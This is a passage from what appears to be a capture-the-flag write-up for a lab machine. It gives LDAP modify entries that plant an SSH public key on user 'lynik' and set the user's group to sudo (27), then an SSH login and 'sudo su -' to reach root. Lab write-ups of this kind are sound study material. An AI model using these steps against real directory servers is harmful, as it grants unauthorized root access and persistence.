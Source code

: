 Adding new object _ldapPublicKey_ attribute to the user _lynik_:
```
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
add: objectClass
objectClass: ldapPublicKey
```

Adding _sshPublicKey_ attribute to the user _lynik_ with the contents of the created public key:
```
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
add: sshPublicKey
sshPublicKey: ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB(...)
```

Modifying the _gidNumber_ attribute to the number of _sudo_ (27):
```
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: gidNumber
gidNumber: 27
```

Using SSH to connect to the box as _lynik_:
```
ssh -i lynik.key lynik@10.10.10.189
```

The user is now in the group _sudo_ and can run `sudo` with the newly set password to switch users to root:
```
sudo su -
```

